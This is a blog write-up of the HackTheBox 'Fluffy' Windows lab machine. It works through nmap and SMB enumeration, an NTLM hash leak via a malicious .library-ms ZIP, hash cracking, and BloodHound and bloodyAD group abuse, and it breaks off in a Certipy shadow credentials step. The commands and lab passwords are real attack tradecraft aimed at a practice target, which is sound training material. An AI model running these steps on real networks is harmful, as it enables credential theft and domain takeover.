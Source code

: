 ```yaml
---
title: "HackTheBox Fluffy Writeup"
date: 2025-08-10
categories: [HTB, Writeup]
tags: [Windows, ADCS, CVE,AD]
image:
  path: /assets/2.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Fluffy HTB — blog writeup cover"
---
```



## Machine Information
As is common in real life Windows pentests, you will start the Fluffy box with credentials for the following account:  ```j.fleischman``` / ```J0elTHEM4n1990!```

## Nmap Scan
```shell
sudo nmap 10.10.11.69 -T4 -A -open -p-
```
```shell
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-21 04:05:16Z)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-21T04:06:58+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-21T04:06:56+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-07-21T04:06:58+00:00; +6h59m59s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-21T04:06:56+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49710/tcp open  msrpc         Microsoft Windows RPC
49727/tcp open  msrpc         Microsoft Windows RPC
49750/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-07-21T04:06:17
|_  start_date: N/A
|_clock-skew: mean: 6h59m58s, deviation: 0s, median: 6h59m58s

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   170.58 ms 10.10.16.1
2   170.95 ms 10.10.11.69
```
We get some important data about target:

## SMB

So i started by testing the SMB port using the initial credentials:
```shell
nxc smb fluffy.htb -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
```
Then we expanded and downloaded everything using:
```shell
nxc smb fluffy.htb  -u 'j.fleischman' -p 'J0elTHEM4n1990!' -M spider_plus -o DOWNLOAD_FLAG=True
```
![nxc_smb](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FX7MnVPxXGOWE7TkFP55N%252FScreenshot%2520From%25202025-07-24%252005-09-46.png%3Falt%3Dmedia%26token%3D10b19759-4999-4bd5-a4f0-f8570a1683b6&width=400&dpr=3&quality=100&sign=2618b13f&sv=2)
Checked the downloaded SMB files and found a PDF called Upgrade_Notice.pdf looked suspicious from the IT department listing CVEs affecting the current Windows version. 
One of them, CVE-2025-24996 (NTLM File Path Spoofing), has a working PoC on GitHub.
![Upgrade_Notice.pdf](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252Fq0AnquA03OphFgIg80bn%252Fimage.png%3Falt%3Dmedia%26token%3Dd062d06d-46a3-4c5c-be8f-6e49eb429c8e&width=400&dpr=3&quality=100&sign=13faa9f9&sv=2)

## CVE-2025-24996: NTLM Hash Leak via .library-ms File 
the link of POC: ```https://github.com/FOLKS-iwd/CVE-2025-24071-msfvenom```

![CVE-2025-24071](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FIgOwImNjv6GsZiXfzsUm%252Fimage.png%3Falt%3Dmedia%26token%3Db1be3b27-934f-4639-8342-cc405d6f9c2b&width=400&dpr=3&quality=100&sign=482ceac1&sv=2)

Let’s start exploiting it.

After following the steps in the PoC:
- Loaded the Metasploit module
- Set the attacker IP, filename, library name, and SMB share
- Ran the module and generated the malicious ZIP file ```(exploit.zip)```

Once the victim extracts the ZIP, Windows Explorer automatically processes the embedded ```.library-ms``` file. This triggers a connection attempt to the attacker's SMB server, resulting in NTLMv2 hash leakage.

You should see an output similar to the following:
![exploit](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252F9PJS7vnaCDkjdUxNUFbX%252FScreenshot%2520From%25202025-07-21%252004-06-39.png%3Falt%3Dmedia%26token%3D3b0c5fc8-8efe-4144-a186-10f94fd7b702&width=768&dpr=4&quality=100&sign=8ad495af&sv=2)
This hash can now be cracked offline using tools like hashcat or john to recover the user's cleartext password.

```shell
hashcat -m 5600 -a 0 ntlmv2.txt /home/kali/Downloads/rockyou.txt
```

![hashcat](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FapeoNuGmbWdeIa26qjBJ%252FScreenshot%2520From%25202025-07-21%252004-22-19.png%3Falt%3Dmedia%26token%3D6ca0f956-32f3-483b-84dc-ee506bf573c3&width=400&dpr=3&quality=100&sign=98ac6e59&sv=2)

now you have credentials of user target ```P.AGILA:prometheusx-303```


## BloodHound

I used the credentials for  ```p.agila@fluffy.htb``` and analyzed them with BloodHound.

```shell
bloodhound-python -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb -ns 10.10.11.69 -c All --zip
```
I found that this user is part of the ```SERVICE ACCOUNT MANAGERS group```, which has ```GenericAll``` privileges over the ```SERVICE ACCOUNTS group```. 
This means full control i can add or remove users, and modify settings for that group.
![BloodHound1](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FQGwJrGqNuvim9ifURpEc%252FScreenshot%2520From%25202025-07-24%252006-43-18.png%3Falt%3Dmedia%26token%3Ddd2630e6-68c2-4f23-ad3d-c72100a91ba8&width=400&dpr=3&quality=100&sign=130f1eb3&sv=2)
let's see what we got, SERVICE ACCOUNTS contains key accounts such as:
- WINRM_SVC@FLUFFY.HTB
- LDAP_SVC@FLUFFY.HTB
- CA_SVC@FLUFFY.HTB
![BloodHound2](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FfBcmqHW18XBDWYZk4bS4%252Fimage.png%3Falt%3Dmedia%26token%3Da2871440-54a6-4ee7-b090-f9d4c2a2b8e4&width=400&dpr=3&quality=100&sign=addd2495&sv=2)
If we see the user ```CA_SVC```, it's likely related to Certificate Services, and it may open a path to Active Directory Certificate Services (AD CS) exploitation.

This gives ```p.agila``` the ability to modify attributes of ```ca_svc```, a critical step for Shadow Credentials or Other attacks related to Certificate Services.
```shell
bloodyAD --host '10.10.11.69' -d 'dc01.fluffy.htb' -u 'p.agila' -p 'prometheusx-303'  add groupMember 'SERVICE ACCOUNTS' p.agila
```
By adding ```p.agila``` to SERVICE ACCOUNTS, I can potentially escalate privileges and gain further control through these service accounts.
![bloodyAD](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FMfl0tQ7Cp461M9UjB3fL%252Fimage.png%3Falt%3Dmedia%26token%3D11314faf-8c66-4310-9a9d-0ea0b75080c9&width=400&dpr=3&quality=100&sign=96288301&sv=2)
Now we are ```p.agila``` added to ```SERVICE ACCOUNTS``` what next step???

After some research, I discovered that the attack path involves Active Directory Certificate Services (AD CS) exploitation am one pf this attacks called To better understand this technique, I referenced this detailed blog:

https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally

https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6

## Shadow Credentials → $User 

> The old tool certipy-ad is outdated, so I used the updated and maintained Certipy tool instead https://github.com/ly4k/Certipy don't mix between them
{: .prompt-warning }

```shell
certipy shadow -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -account 'WINRM_SVC' auto
```
![Certipy](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FpZSFWengHFPG9lJl0gBq%252Fimage.png%3Falt%3Dmedia%26token%3Dfdb6141b-4c81-477c-a741-1d1a2ae7b14b&width=400&dpr=3&quality=100&sign=b757e698&sv=2)

The ```KRB_AP_ERR_SKEW``` error occurs because your machine’s clock is out of sync with the Domain Controller ```10.10.11.69```, breaking Kerberos authentication for the Shadow Credentials attack. Fix it by syncing time with ```sudo ntpdate 10.10.11.69```

> Kerberos SessionError: KRB_AP_ERR_SKEW (Clock skew too great)
It means your machine's clock is out of sync with the domain controller and Kerberos hates that.
Fix it with:
{: .prompt-warning }
```shell
bashCopyEditsudo systemctl stop systemd-timesyncd
sudo ntpdate 10.10.11.69
This stops the system time service and manually syncs your clock with the DC (10.10.11.69), so you can get Kerberos tickets properly again.
```
